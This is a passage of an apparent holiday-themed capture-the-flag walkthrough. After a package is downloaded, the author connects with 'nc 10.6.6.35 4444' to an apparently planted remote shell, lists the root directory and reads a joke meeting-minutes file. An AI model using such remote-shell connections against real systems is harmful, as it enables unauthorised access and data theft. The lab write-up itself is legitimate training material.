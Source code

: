 After the package is download, connect to the remote host with `nc`:

```
guest@ff953b080be3:~$ nc 10.6.6.35 4444
ls -al                                                                                      
total 60                                                                                    
drwxr-xr-x   1 root root 4096 Dec 15 20:00 .                                                
drwxr-xr-x   1 root root 4096 Dec 15 20:00 ..                                               
-rwxr-xr-x   1 root root    0 Dec 15 20:00 .dockerenv
-rw-r--r--   1 root root 3618 Dec  4 21:34 NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt
lrwxrwxrwx   1 root root    7 Nov  6 01:21 bin -> usr/bin
drwxr-xr-x   2 root root 4096 Apr 15  2020 boot
drwxr-xr-x   5 root root  360 Dec 15 20:00 dev 
drwxr-xr-x   1 root root 4096 Dec 15 20:00 etc 
drwxr-xr-x   1 root root 4096 Nov 30 18:33 home
lrwxrwxrwx   1 root root    7 Nov  6 01:21 lib -> usr/lib
lrwxrwxrwx   1 root root    9 Nov  6 01:21 lib32 -> usr/lib32
lrwxrwxrwx   1 root root    9 Nov  6 01:21 lib64 -> usr/lib64
lrwxrwxrwx   1 root root   10 Nov  6 01:21 libx32 -> usr/libx32

cat NORTH_POLE_Land_Use_Board_Meeting_Minutes.txt                                                                                                           

NORTH POLE                                                                                                                                                                              
LAND USE BOARD                                                                                                                                                                          
MEETING MINUTES                                                                                                                                                                         
                                                                                                                                                                                        
January 20, 2020                                                                            
                                                                                            
Meeting Location: All gathered in North Pole Municipal Building, 1 Santa Claus Ln, North Pole                                                                                           
                                                                                                                                                                                        
Chairman Frost calls meeting to order at 7:30 PM North Pole Standard Time.                                                                                                              
                                                                                                                                                                                        
Roll call of Board members please:                                                          
Chairman Jack Frost - Present                                                               
Vice Chairman Mother Nature - Present                                                                                                                                                   
                                                                                                                                                                                        
Superman - Present                                                                          
Clarice - Present                                                                                                                                                                       
Yukon Cornelius - HERE!                                                                     
Ginger Breaddie - Present
King Moonracer - Present
Mrs. Donner - Present
Tanta Kringle - Present
Charlie In-the-Box - Here
Krampus - Growl
Dolly - Present
Snow Miser - Heya!
Alabaster Snowball - Hello
Queen of the Winter Spirits - Present
ALSO PRESENT:
                Kris Kringle
                Pepper Minstix
                Heat Miser
                Father Time
Chairman Frost made the required announcement concerning the Open Public Meetings Act: Adequate notice of this meeting has been made -- displayed on the bulletin board next to the Pole
```